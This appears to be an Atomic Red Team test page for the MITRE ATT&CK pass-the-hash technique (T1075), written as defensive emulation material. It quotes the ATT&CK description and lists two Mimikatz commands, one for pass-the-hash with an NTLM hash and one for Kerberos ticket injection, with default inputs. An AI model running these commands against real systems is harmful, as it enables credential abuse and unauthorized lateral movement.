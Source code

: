 ```yaml
---
published: false
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.<br/> 
<br/>
Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- Atomic Test #1 - Mimikatz Pass the Hash

- Atomic Test #2 - Mimikatz Kerberos Ticket Attack

<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Run it with `command_prompt`!

```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
<br/>
<br/>

## Atomic Test #2 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|

#### Run it with `command_prompt`!

```
mimikatz # kerberos::ptt #{user_name}@#{domain}
```
